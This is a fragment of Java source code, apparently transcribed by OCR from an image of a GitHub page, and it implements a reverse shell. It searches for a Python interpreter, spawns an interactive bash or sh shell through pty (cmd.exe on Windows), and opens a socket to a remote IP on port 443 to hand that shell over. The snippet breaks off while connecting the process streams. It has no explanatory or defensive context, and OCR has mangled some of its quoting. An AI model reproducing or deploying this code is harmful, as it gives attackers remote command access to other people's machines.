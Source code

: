 ```
String port = “443”;

String py_path = null;

String[] cmd;

if (!System.getProperty(“os.name”).toLowerCase().contains(“windows”)) {

String[] py_envs = new String[]{"/bin/python", “/bin/python3”, “/usr/bin/python”, “/usr/bin/python3”, “/usr/local/bin/python”, “/usr/local/bin/python3”};

for(int i = 0; i < py_envs.length; ++i) {

String py = py_envs[i];

if ((new File(py)).exists()) {

py_path = py;

break;

}

}

if (py_path != null) {

if ((new File("/bin/bash")).exists()) {

cmd = new String[]{py_path, “-c”, “import pty;pty.spawn(”/bin/bash")"};

} else {

cmd = new String[]{py_path, “-c”, “import pty;pty.spawn(”/bin/sh")"};

}

} else {

if ((new File("/bin/bash")).exists()) {

cmd = new String[]{"/bin/bash"};

} else {

cmd = new String[]{"/bin/sh"};

}

}

} else {

cmd = new String[]{“cmd.exe”};

}

Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();

Socket s = new Socket(ip, Integer.parseInt(port));

InputStream pi = p.getInputStream();

```